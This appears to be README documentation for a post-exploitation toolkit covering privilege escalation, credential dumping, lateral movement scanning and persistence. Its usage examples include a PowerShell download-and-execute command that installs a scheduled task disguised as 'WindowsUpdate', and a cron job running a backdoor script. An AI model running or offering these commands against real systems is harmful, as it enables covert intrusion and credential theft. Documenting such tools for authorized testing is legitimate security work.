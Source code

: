 **Platforms**: Windows + Linux (auto-detection)

**MITRE ATT&CK**: TA0004 (Privilege Escalation)

**Files**:
- `post_exploitation/privesc_scanner.py` (unified CLI)
- `post_exploitation/privesc_windows.py` (Windows implementation)
- `post_exploitation/privesc_linux.py` (Linux implementation)

### 3. Credential Dumper (credential_dump.py)

**Purpose**: Ethical credential discovery for authorized security assessments

**Capabilities**:
- **Windows**: Saved credentials, WiFi passwords, registry credentials
- **Linux**: SSH keys, bash history, config files, environment variables

**Platforms**: Windows + Linux

**MITRE ATT&CK**: TA0006 (Credential Access)

**File**: `post_exploitation/credential_dump.py`

### 4. Lateral Movement Scanner (lateral_movement.py)

**Purpose**: Identify lateral movement opportunities in network

**Capabilities**:
- Multi-protocol scanning (SMB, RDP, SSH, WinRM, WMI, VNC)
- SMB share enumeration
- Service banner grabbing
- CIDR range expansion

**Platforms**: Windows + Linux

**MITRE ATT&CK**: TA0008 (Lateral Movement)

**File**: `post_exploitation/lateral_movement.py`

## Usage Examples

### Persistence Module

#### Check Existing Persistence

```bash
# Windows
python post_exploitation/persistence.py --check

# Linux
python post_exploitation/persistence.py --check
```

#### Install Persistence (Authorized Testing Only)

```bash
# Windows: Install scheduled task
python post_exploitation/persistence.py \
    --install scheduled_task \
    --command "powershell.exe -WindowStyle Hidden -Command 'IEX (New-Object Net.WebClient).DownloadString(\"http://10.0.0.1/shell.ps1\")'" \
    --name "WindowsUpdate"

# Linux: Install cron job
python post_exploitation/persistence.py \
    --install cron \
    --command "/usr/bin/python3 /tmp/backdoor.py" \
    --schedule "*/15 * * * *"

```